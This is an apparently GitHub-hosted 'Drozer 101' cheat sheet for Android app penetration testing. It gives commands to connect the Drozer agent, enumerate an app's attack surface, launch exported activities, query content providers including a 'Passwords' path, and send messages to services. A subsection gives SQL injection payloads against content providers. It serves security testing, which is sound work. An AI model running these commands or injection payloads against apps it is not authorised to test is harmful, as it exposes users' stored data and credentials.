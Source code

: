 ## Drozer 101

### 1. Info

- Tool: `https://github.com/FSecureLABS/drozer`
- Agent: `https://github.com/FSecureLABS/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk`
- Docker: `https://github.com/haxxinen/dockero-infosec/tree/master/drozer`


### 2. Setup

a. Install the Drozer agent
```
# adb install /tmp/drozer-angent-*.apk
```
Note: run the app and toggle the "Embedded Server"

b. Connect to the agent
```
# adb devices
# adb forward tcp:31415 tcp:31415
# drozer server start
# drozer console devices
# drozer console connect
```

### 3. Enumerate attack surface of specific app

```
dz>ls
dz>run app.package.list -f myappname
dz>run app.package.info -a com.app.abc
dz>run app.package.attacksurface com.app.abc
```

### 4. Start activity

```
dz>run app.activity.info -a com.app.abc
dz>run app.activity.start --component com.app.abc com.app.abc.MainActivity
dz>run app.activity.start --component com.app.abc com.app.abc.SomeOtherActivity
```

### 5. List and query content provider (database)

```
dz>run app.provider.info -a com.app.abc
dz>run app.provider.finduri com.app.abc
dz>run app.provider.query content://com.app.abc.SomeContentProvider/Interesting
dz>run app.provider.query content://com.app.abc.SomeContentProvider/Passwords
```

#### 5.1. SQL injection in content provider (SQLite)
```
dz> run app.provider.query content://com.google.settings/partner --projection "* FROM sqlite_master-- -" --vertical
dz> run app.provider.query content://media/external/video/media --projection "* FROM sqlite_master-- -" --vertical
```

### 6. Interact with a service

```
dz>run app.service.info -a com.app.abc
dz>run app.service.send com.app.abc.name.CryptoService --msg 3265 168 --extra string com.app.abc.name.KEY thisispass --extra string com.app.abc.name.PASSWORD 9diawd9dwad==
```

### 7. Download APK for an installed app

```
dz>run app.package.info -a com.app.abc
dz>run tools.file.download /data/app/com.app.abc.name-*.apk ~/Desktop/app.apk
```
